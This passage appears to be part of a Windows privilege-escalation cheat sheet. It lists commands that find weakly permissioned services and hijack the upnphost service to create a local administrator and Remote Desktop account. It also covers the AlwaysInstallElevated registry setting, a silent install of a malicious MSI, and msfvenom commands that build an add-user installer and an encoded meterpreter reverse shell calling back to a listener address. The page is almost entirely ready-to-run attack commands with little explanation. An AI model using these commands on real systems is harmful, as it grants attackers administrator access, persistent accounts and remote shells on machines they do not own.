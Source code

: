 ```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv * /accepteula

sc config upnphost binpath= "net user /add amxuser1 amxpass1234"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net stop upnphost
net start upnphost
net start upnphost

sc config upnphost binpath= "net localgroup administrators amxuser1 /add"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net stop upnphost
net start upnphost
net start upnphost

sc config upnphost binpath= "net localgroup \"Remote Desktop Users\" amxuser1 /add"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net stop upnphost
net start upnphost
net start upnphost
```

### AlwaysInstallElevated
- `exploit/windows/local/always_install_elevated`

```
[HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer]
"AlwaysInstallElevated"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
"AlwaysInstallElevated"=dword:00000001
```
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Installing MSI:
```
msiexec /quiet /qn /i malicious.msi
```

Payload Generation:
```
msfvenom -f msi-nouac -p windows/adduser USER=eviladmin PASS=P4ssw0rd@ -o add_user.msi
```
```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
msfvenom -f msi-nouac -p windows/exec cmd="C:\Users\testuser\AppData\Local\Temp\Payload.exe" > malicious.msi
```
